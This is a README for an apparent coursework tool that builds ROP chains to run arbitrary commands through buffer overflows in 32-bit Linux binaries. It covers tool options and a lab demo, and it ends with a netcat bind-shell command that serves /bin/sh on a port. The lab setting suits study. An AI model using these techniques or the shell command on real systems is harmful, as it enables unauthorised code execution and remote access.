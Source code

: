 !!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
                                            IMPORTANT
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!

!!! MY WORK DONE CONSISTS SOLELY OF THE autorun.py SCRIPT !!!
!!! OTHER FILES IN THIS DIRECTORY ARE HERE ONLY FOR TESTING PURPOSES, WOULD THE USER WISH TO TEST OUT THE TOOL ON THEM !!!
!!! I DO NOT TAKE CREDIT FOR THESE FILES !!!

!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
                                            IMPORTANT
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!


REQUIREMENTS
-------------------------------------------------------------------------

This tool can be used for generating ROP chains of arbitrary command lines
Works on x86-32 bit programs with a buffer overflow vulnerability, such as the C strcpy function
Tool can be obtained from the git repo 

FOR THE PURPOSE OF THE TUTORIAL, WE'LL BE USING THE PROVIDED VAGRANTFILE, WHICH RUNS A x86-64 LINUX SYSTEM (tool has not been tested on other systems)

To log into the VM, run:

    vagrant up
    vagrant ssh

The tool and example files can be obtained by cloning https://github.com/navratilj/sss-cw.git

Requirements before using the tool:

    - python3
    - python3-pip
    - gdb
    - gcc-multilib
    - capstone
    - radare2
    - ROPgadget (https://github.com/JonathanSalwan/ROPgadget)

On Linux systems, these can be installed by running:

    sudo apt-get update -y
    sudo apt install -y python3-pip gdb gcc-multilib
    sudo pip3 install capstone
    sudo apt install radare2
    sudo -H python3 -m pip install ROPgadget

The provided Vagrantfile should automatically install them. If not, run:

    vagrant provision


TOOL USAGE
-------------------------------------------------------------------------

The tool is the "autorun.py" script

To see usage, run:

    python3 autorun.py -h

This will display the tool options and necessary arguments to run
Two arguments are non-optional:

    -b/-bin/--binary --> Path to the vulnerable binary

    -e/-exe/--execute --> Command line you wish to execute.
                          If it contains spaces, make sure to enclose it in ' ' or " "

With no other arguments provided, the tool will produce a ROP chain and put the output into "rop-output". To change the name of the output file, use the -o OUTPUT argument

The -a option automatically runs the produced ROP chain in the binary

The -d DATA_ADDR allows you to set your own .data address

The -g GDB_RUN argument allows you to change the file that gdb will test padding on. This is used for files that have a hard coded name of the file they try to copy from

The -p option skips the gdb step and only produces the ROP chain without padding. Use for files that don't have a simple ./<bin> <file_name> structure

The -badbytes BADBYTES argument enables you to not find gadgets with addresses that contain the badbytes


SHOWCASE EXAMPLE
-------------------------------------------------------------------------

Log in to the vagrant machine

Clone https://github.com/navratilj/sss-cw.git to obtain autorun.py and lab 3 and 4 files

Compile files using: gcc -fno-stack-protector -m32 -static <file.c> -o <bin> (static for easier finding of gadgets, no protector because tool can't bypass stack canaries)

Show ASLR is on: cat /proc/sys/kernel/randomize_va_space (2 == on)

Show NX is enabled: rabin2 -I <file>

Show usage: python3 autorun.py -h

Run and example command(/bin/sh, ls, ls -a -l, python...) without -a option. 
This should create a ROP chain and output it to rop-output. 
Then run ./<bin> rop.output and your command should execute

Run with the -a option to run automatically

Change size of buffer in an example file to show that it works with different buffer size

Run readelf -S <file> to show writeable memory spaces. These can be recognised by the letter W
Use -d to change to and address that contains a null byte. 
Had I had more time, if the address contained a null byte, it would search for a different W address

The -badbytes option finds gadgets without the specified bytes in their address (example: d5, 90, 61)
Their form is of <instruction_needed> ; (many pop instructions) ; ret
If I had more time, I would extend the tool to find gadgets of form (many pop instructions) ; <instruction_needed> ; (many pop instructions) ; ret

Running netcat:

    untar using tar -xzf <file>
    ./configure
    make
    cp src/netcat /tmp/nc
    mkdir left_window right_window
    left --> /tmp/nc -lnp 5678 -tte /bin/sh
    right --> /tmp/nc 127.0.0.1 5678
              pwd 

That's all, thank you!
